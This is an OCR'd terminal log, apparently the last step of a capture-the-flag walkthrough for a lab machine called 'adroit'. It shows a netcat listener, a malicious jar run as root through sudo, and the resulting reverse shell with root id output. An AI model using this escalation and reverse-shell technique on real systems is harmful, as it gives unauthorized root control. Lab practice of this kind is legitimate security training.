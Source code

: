2021-01-15 18:08:08 (25.0 MB/s) - ‘testingmyapp.jar’ saved [1191/1191]


#####################
FINAL STEP
#####################

-------------------------------
my machine before reverse shell
-------------------------------
nc -lvp 4444

---------------
adroit machine
--------------
writer@adroit:/tmp$ sudo -u root /usr/bin/java -jar /tmp/testingmyapp.jar

-------------------------------
my machine after
-------------------------------

┌──(alienum㉿kali)-[~/Desktop]
└─$ nc -lvp 4444                                                                                              1 ⚙
listening on [any] 4444 ...
connect to [10.0.2.15] from adroit.local [10.0.2.142] 49644
/usr/bin/script -qc /bin/bash /dev/null
root@adroit:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)

